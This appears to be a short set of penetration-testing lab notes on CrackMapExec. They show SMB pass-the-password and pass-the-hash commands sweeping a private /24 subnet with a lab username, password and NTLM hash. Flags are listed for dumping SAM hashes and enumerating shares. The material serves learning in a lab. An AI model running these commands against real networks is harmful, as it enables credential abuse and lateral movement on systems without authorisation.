

# Crackmapexec

# Pass the Password

## Usage

```bash
crackmapexec smb 192.168.70.0/24 -u fcastle -d MARVEL.local -p Password1
```
- -u = Username
- -d = Domain
- -p = Password

## Output



# Pass the Hash

```bash
crackmapexec smb 192.168.70.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```

### General Crackmapexec functions:
- --sam = dumps out the sam (hashes)
- --local-auth
- --shares = enumerate shares

# Crackmapexec Database

```bash
cmedb
>help
```